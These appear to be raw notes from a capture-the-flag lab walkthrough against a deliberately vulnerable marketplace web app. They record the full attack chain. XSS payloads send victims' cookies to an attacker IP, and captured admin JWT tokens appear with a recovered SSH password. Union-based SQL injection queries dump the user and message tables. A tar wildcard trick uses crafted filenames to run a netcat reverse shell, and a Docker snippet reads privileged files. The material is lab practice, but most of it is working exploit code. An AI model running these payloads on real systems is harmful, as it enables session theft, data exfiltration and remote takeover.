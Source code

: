 json web token

created account doesnt let upload file

```bash                                                                                   
┌──(kali㉿kali)-[~/Downloads]
└─$ dirsearch -r -u 10.10.215.167

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30
Wordlist size: 10877

Output File: /home/kali/.dirsearch/reports/10.10.215.167/_21-07-07_11-06-13.txt

Error Log: /home/kali/.dirsearch/logs/errors-21-07-07_11-06-13.log

Target: http://10.10.215.167/

[11:06:13] Starting: 
[11:06:19] 403 -  555B  - /.htaccess.bak1
[11:06:20] 403 -  555B  - /.ht_wsr.txt
[11:06:20] 403 -  555B  - /.htaccess.orig
[11:06:20] 403 -  555B  - /.htaccess_orig
[11:06:20] 403 -  555B  - /.htaccess_extra
[11:06:20] 403 -  555B  - /.htaccess.save
[11:06:20] 403 -  555B  - /.htaccess_sc
[11:06:20] 403 -  555B  - /.htaccessOLD2
[11:06:20] 403 -  555B  - /.htm
[11:06:20] 403 -  555B  - /.htaccessBAK
[11:06:20] 403 -  555B  - /.htaccessOLD
[11:06:20] 403 -  555B  - /.html
[11:06:20] 403 -  555B  - /.htpasswds
[11:06:20] 403 -  555B  - /.htaccess.sample
[11:06:20] 403 -  555B  - /.htpasswd_test
[11:06:20] 403 -  555B  - /.httr-oauth
[11:06:28] 403 -  392B  - /ADMIN
[11:06:28] 403 -  392B  - /Admin
[11:06:37] 403 -  392B  - /admin
[11:06:38] 403 -  555B  - /admin/.htaccess
[11:06:38] 403 -  392B  - /admin/     (Added to queue)
[11:06:38] 403 -  392B  - /admin/?/login
[11:06:44] 403 -  555B  - /administrator/.htaccess
[11:06:47] 403 -  555B  - /app/.htaccess
[11:07:02] 301 -  179B  - /images  ->  /images/
[11:07:06] 200 -  857B  - /login
[11:07:06] 200 -  857B  - /login/     (Added to queue)
[11:07:09] 302 -   28B  - /messages  ->  /login
[11:07:10] 302 -   28B  - /new  ->  /login
[11:07:18] 200 -   31B  - /robots.txt
[11:07:20] 200 -  667B  - /signup
[11:07:29] Starting: admin/
[11:07:34] 403 -  555B  - /admin/.ht_wsr.txt
[11:07:34] 403 -  555B  - /admin/.htaccess.bak1
[11:07:34] 403 -  555B  - /admin/.htaccess.orig
[11:07:34] 403 -  555B  - /admin/.htaccess.save
[11:07:34] 403 -  555B  - /admin/.htaccess_extra
[11:07:34] 403 -  555B  - /admin/.htaccess.sample
[11:07:34] 403 -  555B  - /admin/.htaccessOLD2
[11:07:34] 403 -  555B  - /admin/.htaccessBAK
[11:07:34] 403 -  555B  - /admin/.htaccess_orig
[11:07:34] 403 -  555B  - /admin/.htaccessOLD
[11:07:34] 403 -  555B  - /admin/.htaccess_sc
[11:07:34] 403 -  555B  - /admin/.html
[11:07:34] 403 -  555B  - /admin/.htm
[11:07:34] 403 -  555B  - /admin/.htpasswd_test
[11:07:34] 403 -  555B  - /admin/.htpasswds
[11:07:34] 403 -  555B  - /admin/.httr-oauth
[11:07:50] 403 -  555B  - /admin/admin/.htaccess
[11:07:58] 403 -  555B  - /admin/administrator/.htaccess
[11:08:01] 403 -  555B  - /admin/app/.htaccess
[11:08:52] Starting: login/
[11:08:58] 403 -  555B  - /login/.ht_wsr.txt
[11:08:58] 403 -  555B  - /login/.htaccess.bak1
[11:08:58] 403 -  555B  - /login/.htaccess.orig
[11:08:58] 403 -  555B  - /login/.htaccess.save
[11:08:58] 403 -  555B  - /login/.htaccess.sample
[11:08:58] 403 -  555B  - /login/.htaccess_extra
[11:08:58] 403 -  555B  - /login/.htaccess_sc
[11:08:58] 403 -  555B  - /login/.htaccess_orig
[11:08:58] 403 -  555B  - /login/.htaccessBAK
[11:08:58] 403 -  555B  - /login/.htm
[11:08:58] 403 -  555B  - /login/.htaccessOLD
[11:08:58] 403 -  555B  - /login/.html
[11:08:58] 403 -  555B  - /login/.htaccessOLD2
[11:08:58] 403 -  555B  - /login/.htpasswd_test
[11:08:58] 403 -  555B  - /login/.htpasswds
[11:08:58] 403 -  555B  - /login/.httr-oauth
[11:09:17] 403 -  555B  - /login/admin/.htaccess
[11:09:25] 403 -  555B  - /login/administrator/.htaccess
[11:09:28] 403 -  555B  - /login/app/.htaccess

Task Completed
```




cookie stealing 

create post, 



https://github.com/Xyl2k/Cookie-stealer

`<script>document.write("<img src='http://<ip>.fr/c.php?c="+document.cookie+"'></img>");</script>`

<script>new Image().src="http://10.6.65.43/?c="+document.cookie;</script>



python server on 80

report to admin

```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.215.167 - - [07/Jul/2021 11:42:34] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjU2NzI1NTV9.kTGTJVd0H20RwBfX3fnmy89_Bj39D2rUsV74E-vNh4U HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
```

 machine expired , new json token
 ```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.65.43 - - [07/Jul/2021 12:52:25] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjQsInVzZXJuYW1lIjoic3R1ZGVudCIsImFkbWluIjpmYWxzZSwiaWF0IjoxNjI1Njc2NjgxfQ.Fn73n73xxpSIJlX6c0mWLCB1A-5OUkSuwijR8Zl-8e4 HTTP/1.1" 200 -
10.10.84.75 - - [07/Jul/2021 12:52:46] "GET /?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjU2NzY3NjV9.-Q_V4PNgUoPZ5wcIC9jRhTGK6DpN0RPCM_RM8SVP9L0 HTTP/1.1" 200 -
```

 
 {
  "userId": 2,
  "username": "michael",
  "admin": true,
  "iat": 1625672555
}



select * 
from user 
where id=1

union 


http://10.10.84.75/admin?user=0%20union%20select%201,table_name,3,4%20from%20information_schema.tables%20where%20table_schema%20=%20%27marketplace%27

my sql 
8.0.21
db = marketplace
table name = items   items,messages,users
column name = user 1

```sql
SELECT `COLUMN_NAME` 
FROM `INFORMATION_SCHEMA`.`COLUMNS` 
WHERE `TABLE_SCHEMA`='yourdatabasename' 
    AND `TABLE_NAME`='yourtablename';
```

union select 1,2,3,4 from information_schema.columns where table_schema = 'marketplace' and table_name = 'items'

union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()

union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'users'

id,isAdministrator,password,username


union select 1,group_concat(username),3,4 from marketplace.users

jake,michael,student,system


union select 1,group_concat(password),3,4 from marketplace.users

nothing


union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name = 'messages'

 id,is_read,message_content,user_from,user_to
 
 
 union select 1,group_concat(message_content),3,4 from marketplace.messages
 
 ```
 User Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing and found nothing that violates our rules.,Thank you for your report. One of our admins will evaluate whether the listing you reported breaks our guidelines and will get back to you via private message. Thanks for using The Marketplace!,Thank you for your report. We have reviewed the listing an  
ID: 1  
Is administrator: true

jake,michael,student,system
jake:@b_ENXkGYUCAv3zJ





jake@the-marketplace:~$ cat /opt/backups/backup.sh
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *



echo "mkfifo /tmp/lhennp; nc 10.6.65.43 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1

tar cf archive.tar *







CONTAINER_ID="$(docker run -d alpine)"  # or existing
TF=$(mktemp)
docker cp file_to_read $CONTAINER_ID:$TF
docker cp $CONTAINER_ID:$TF $TF
cat $TF
```